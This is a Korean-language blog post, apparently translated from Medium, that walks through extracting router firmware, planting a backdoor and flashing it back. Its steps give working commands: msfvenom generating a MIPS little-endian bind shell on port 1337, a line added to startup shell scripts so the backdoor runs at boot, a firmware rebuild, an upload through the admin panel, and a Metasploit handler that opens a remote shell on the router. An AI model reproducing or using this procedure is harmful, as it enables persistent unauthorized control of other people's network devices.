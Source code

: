 ```yaml
---
title: "라우터 펌웨어 역공학 및 백도어 설치 방법"
description: ""
coverImage: "/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png"
date: 2024-07-06 02:52
ogImage: 
  url: /assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png
tag: Tech
originalTitle: "Reverse Router Firmware , Backdooring It…"
link: "https://medium.com/@nahid0x1/reverse-router-firmware-backdooring-it-78ff442edb6c"
---
```



라우터 펌웨어는 네트워크 인프라의 중요한 구성 요소이며 보안이 자주 간과됩니다. 해커로서 라우터 펌웨어를 역공학 및 백도어링하는 방법을 이해하는 것이 중요합니다. 이 문서에서는 라우터 펌웨어를 역공학하고 백도어링하는 과정을 살펴보겠습니다.

![라우터 펌웨어 역공학 및 백도어링](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_0.png)

도구 및 요구 사항

- 리눅스 머신 (Kali Linux)
- Binwalk: 펌웨어 분석 도구
- Firmware-Mod-Kit (github.com/rampageX/firmware-mod-kit)

<div class="content-ad"></div>

단계 1: 대상 라우터 펌웨어 다운로드하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_1.png)

단계 2: 압축 해제하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_2.png)

<div class="content-ad"></div>

Step 3: Firmware-mod-kit 다운로드하기

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_3.png)

```bash
git clone https://github.com/rampageX/firmware-mod-kit

sudo apt-get install git build-essential zlib1g-dev liblzma-dev python3-magic autoconf python-is-python3
```

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_4.png)

<div class="content-ad"></div>

단계 4: 펌웨어 추출하기

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_5.png

```js
firmware-mod-kit/extract-firmware.sh firmware.bin
```

단계 5: rootfs 폴더로 이동하기

<div class="content-ad"></div>

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_6.png

단계 6: Metasploit을 사용하여 백도어(backdoor) 생성하기

참고: 먼저 펌웨어 엔디안이 리틀 엔디안(little endian)인지 다른 종류의 엔디안인지 확인하십시오.

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_7.png

<div class="content-ad"></div>


```js
cd bin
msfvenom -p linux/mipsle/shell_bind_tcp LPORT=1337 -f elf > backdoor
chmod 777 backdoor
```

Step 7: 백도어를 실행하도록 설정합니다.

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_8.png

```js
cd ...
find . -name "*.sh" #이 명령어는 모든 .sh 파일을 검색합니다
#찾은 .sh 파일에 "/bin/backdoor &"를 추가하세요
```


<div class="content-ad"></div>

8단계: 펌웨어를 다시 빌드하세요

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_9.png

```js
firmware-mod-kit/build-firmware.sh
```

9단계: 펌웨어 업로드

<div class="content-ad"></div>

- 관리자 패널에 로그인하세요.
- 업데이트 옵션을 찾으세요.

![이미지](/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_10.png)

- 이제 수정된 펌웨어를 업로드하세요...

단계 9: 라우터 쉘에 액세스하기

<div class="content-ad"></div>

```js
msfconsole
use exploit/multi/handler
set payload linux/mipsle/shell_bind_tcp
set LPORT 1337
set rhost 192.168.0.1
exploit
```

/assets/img/2024-07-06-ReverseRouterFirmwareBackdooringIt_11.png